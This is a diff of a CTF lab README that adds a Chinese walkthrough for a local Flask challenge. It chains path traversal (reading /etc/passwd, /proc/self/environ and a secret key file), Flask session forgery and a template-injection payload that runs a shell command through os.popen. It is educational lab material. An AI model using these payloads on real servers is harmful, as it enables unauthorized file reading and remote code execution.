

update

Changed region(s): [[0.0, 0.0, 1.0, 0.804], [0.0, 0.9231, 1.0, 1.0], [0.2812, 0.6253, 0.3125, 0.7146]]

diff --git a/nu1lBook/webInit/anyFileRead/q3/README.md b/nu1lBook/webInit/anyFileRead/q3/README.md
@@ -1,9 +1,178 @@
 # any file read Q3
 
-`http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome/sssssserver/flag.py`
+## Solution
 
-http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome/sssssserver/server.py
+進入網頁 `http://localhost:5000/` 粗略試用
 
-`python ./flask_session_cookie_manager3.py encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"`
+發現有以下三個頁面，且透過瀏覽器看出是使用 Python 2.7 撰寫的
+
+- http://localhost:5000/
+- http://localhost:5000/n1page
+- http://localhost:5000/article?name=article
+
+使用傳統藝能，配合 ZAP (`http://localhost:8080/zap/`) 做一次 Automated Scan
+
+![alt text](image-1.png)
+
+整理後主要可以利用的弱點是 Path Traversal
+
+利用網址: `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd` 可以直接 access `/etc/passwd`
+
+![alt text](image-2.png)
+
+基本上這類 Path Traversal 的漏洞，可以任意讀取到伺服器上的任何檔案，我想要嘗試閱讀 Flag 檔案
+
+隨意測試不同常見位置
+
+- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag`
+- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag.txt`
+- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome/flag`
+
+![alt text](image-3.png)
+
+都遇到 no permission error, 但是明明可以 access `/etc/passwd` 這種隱私文件。
+
+因此猜測是 python web service 內有使用某種機制阻止了這種操作。
+
+想嘗試看看能不能讀到 python code 本身，因此透過 access `proc/self/environ` 來獲取當前 process 的環境變數，看看有沒有什麼有用的信息。
+
+go to `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/proc/self/environ`
+
+![alt text](image-4.png)
+
+看到 PWD= `/home/sssssserver`
+
+因此嘗試去該目錄讀取常見的 python code file name。
+
+- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/home/sssssserver/main.py`
+- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/home/sssssserver/server.py`
+
+在 `server.py` 中成功取得 python server source code as below.
+
+```python
+#!/usr/bin/python
+import os
+from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
+from flask_session import Session
+
+app = Flask(__name__)
+execfile('flag.py')
+execfile('key.py')
+
+FLAG = flag
+app.secret_key = key
+@app.route("/n1page", methods=["GET", "POST"])
+def n1page():
+    if request.method != "POST":
+        return redirect(url_for("index"))
+    n1code = request.form.get("n1code") or None
+    if n1code is not None:
+        n1code = n1code.replace(".", "").replace("_", "").replace("{","").replace("}","")
+    if "n1code" not in session or session['n1code'] is None:
+        session['n1code'] = n1code
+    template = None
+    if session['n1code'] is not None:
+        template = '''
+        <h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div>
+        ''' % session['n1code']
+        session['n1code'] = None
+    return render_template_string(template)
+
+@app.route("/", methods=["GET"])
+def index():
+    return render_template("main.html")
+@app.route('/article', methods=['GET'])
+def article():
+    error = 0
+    if 'name' in request.args:
+        page = request.args.get('name')
+    else:
+        page = 'article'
+    if page.find('flag')>=0:
+        page = 'notallowed.txt'
+    try:
+        template = open('/home/nu11111111l/articles/{}'.format(page)).read()
+    except Exception as e:
+        template = e
+
+    return render_template('article.html', template=template)
+
+if __name__ == "__main__":
+    app.run(host='0.0.0.0', debug=False)
+```
+
+透過程式碼分析可以發現 Flask 模板的 template 漏洞 (ctf flask 模板注入)，概念是程式碼直接把 session['n1code'] 的值直接塞到 render_template_string() 函數中，而 session['n1code'] 的值是從 user input 取得的。因此可以透過精心設計的 user input 來注入任意的 Python code。
+
+當然，要做到這件事需要先透過 private key 偽造 Flask Session，因為直接輸入的 input 會把危險字符 replace 掉。
+
+以下會置換輸入文字的危險符號，並且當 session 為空時完成更新。
+
+```python
+if n1code is not None:
+    n1code = n1code.replace(".", "").replace("_", "").replace("{","").replace("}","")
+if "n1code" not in session or session['n1code'] is None:
+    session['n1code'] = n1code
+```
+
+換而言之，自製非空 session 後，可以直接作為輸入傳入 template 中。
+
+基於程式碼得知，可以在 `key.py` 中找到偽造 session 的 private key。
+
+goto `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome/sssssserver/key.py`
+
+取得 key 以後使用網路上的腳本 `flask-session-cookie-manager` 來偽造 session。
+
+```bash
+git clone https://github.com/noraj/flask-session-cookie-manager.git && cd flask-session-cookie-manager
+python -m venv venv
+source venv/bin/activate
+python -m pip install .
+```
+
+先嘗試偽造不具備攻擊性的 session： `python flask_session_cookie_manager3.py encode -s='private_key_above' -t="{'n1code': 'TEST_FLAG'}"`
+
+得到 session: `XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX`
+
+透過 ZAP POST 到 n1code API (session 填入上面腳本產生的偽造 session)
+
+- headers:
+  ```
+  POST http://web-service:5000/n1page HTTP/1.1
+  host: web-service:5000
+  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
+  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
+  Accept-Language: en-US,en;q=0.5
+  Connection: keep-alive
+  Referer: http://web-service:5000/n1page
+  Content-Type: application/x-www-form-urlencoded
+  Upgrade-Insecure-Requests: 1
+  Priority: u=0, i
+  content-length: 13
+  Cookie: session=XXXXXXXXXX
+  ```
+- body:
+  ```
+  n1code=inbody
+  ```
+
+得到以下錯誤結果，預期應該顯示 TEST_FLAG 但顯示 inbody
+
+![alt text](image-5.png)
+
+錯誤原因是 ZAP 要關閉 accept cookie 功能才吃的到自訂 cookie，重新 post 一次，成功顯示 TEST_FLAG。
+
+![alt text](image-6.png)
+
+確認注入流程後按照網路教學，撰寫要注入的 Flask Template Code。
+
+```python
+__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()
+```
+
+概念就是調用 OS 的 popen 方法，執行 cat flag.py 命令，並將結果回傳。
+
+最終使用命令偽造 session : `python ./flask_session_cookie_manager3.py encode -s "private_key_above" -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"`
+
+取得 session 後放入 ZAP 中 POST 成功取得 Flag。
 
 ![alt text](image.png)
